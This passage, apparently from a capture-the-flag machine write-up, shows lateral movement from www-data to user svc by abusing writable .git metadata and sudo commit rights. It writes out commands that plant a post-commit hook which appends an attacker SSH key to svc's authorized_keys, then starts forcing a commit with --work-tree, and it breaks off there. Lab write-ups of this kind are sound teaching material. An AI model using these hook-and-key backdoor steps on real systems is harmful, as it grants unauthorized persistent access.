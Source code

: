www-data has read, write, and execute. There’s no where else in `image` that www-data can write:

```

www-data@encoding:~/image$ find . -path ./.git -prune -o -writable -print
www-data@encoding:~/image$ 

```

### Execution

#### Strategy

With write access to the `.git` folder, I have access to mess with a lot of configuration for the repo. With the `sudo` configuration, I can add and commit files to the repo. There are probably many ways to get execution from this setup.

One way is to use a post-commit hook, which is a script that runs when files are committed. To commit, I’ll need modified files. Typically files are only added to the repo from within the directory containing the `.git` directory (and any subfolders). I’ll modify git to allow files from other locations, and then trigger the commit using the script.

#### Add Hook

This `echo` line pipped into `tee` will write a `bash` script to `.git/hooks/post-commit`:

```

www-data@encoding:~/image$ echo -e 'mkdir -p /home/svc/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys\nchmod 600 /home/svc/.ssh/authorized_keys' | tee .git/hooks/post-commit        
mkdir -p /home/svc/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys
www-data@encoding:~/image$ chmod +x .git/hooks/post-commit

```

I’ll also set it executable. This script writes a public SSH key into svc’s `authorized_keys` file.

#### Make Changes

In order to commit, I’ll need to have some changes in the repo. Changes in the `.git` folder do not count, as that’s metadata about the repo.

```

www-data@encoding:~/image$ git status
On branch master
nothing to commit, working tree clean

```

The `--work-tree` argument allows me to specify a directory to consider part of the repo. I’ll add `/etc/hostname`:
